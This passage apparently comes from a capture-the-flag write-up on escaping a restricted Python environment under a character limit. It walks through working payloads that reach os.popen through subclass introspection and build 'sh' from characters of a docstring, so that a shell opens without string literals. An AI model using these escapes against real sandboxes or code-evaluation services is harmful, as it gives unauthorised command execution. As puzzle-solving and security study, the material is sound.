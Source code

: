 ```python
().__doc__
# -> 'Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.'
```

Just like that, a string we can mess with! So, to build the string 'sh'...

```python
().__doc__[19] + ().__doc__[56]
# -> 'sh'
```

String requirement alleviated! Let's apply this to our exploit.

```python
().__class__.__base__.__subclasses__()[127].__init__.__globals__[().__doc__[84]+().__doc__[34]+().__doc__[84]+().__doc__[17]+().__doc__[7]](().__doc__[19]+().__doc__[56])
```

It works! But hold on... this is 170 characters??!?!?

## No more than 102 characters?

Making strings occupies **a lot** of characters. This means we have two routes.

- Find a more efficent method of creating strings
- Don't make strings

I'll get "popen" without strings, and shorten our method of getting "sh".

### The "popen" predicament

Currently, we index `__globals__` with `popen` in order to get the `popen` function. What if there was a better way to index it, without strings? Well, we can extract just the values from a dictionary and put them into an array. That way, we can index the `__globals__` dictonary with integer indexes, no longer needing strings! Let's first get the values of the dictionary as an array, throwing away the keys.

```python
().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()
# -> dict_values([...])
```

Wait.. this doesn't return an array! This returns a `dict_list` class! That's alright. We can use a new python feature to convert a array-like object, like a  `dict_list`, to an array that we can index.

```python
[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()]
# -> [..., <function fdopen at 0x10fc40ef0>, <function _fspath at 0x10fc43320>, <class 'os.PathLike'>]
```

Phew, now we can index this array by a number!

```python
[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][-5]()
# -> <function popen at 0x10fc40e60>
```
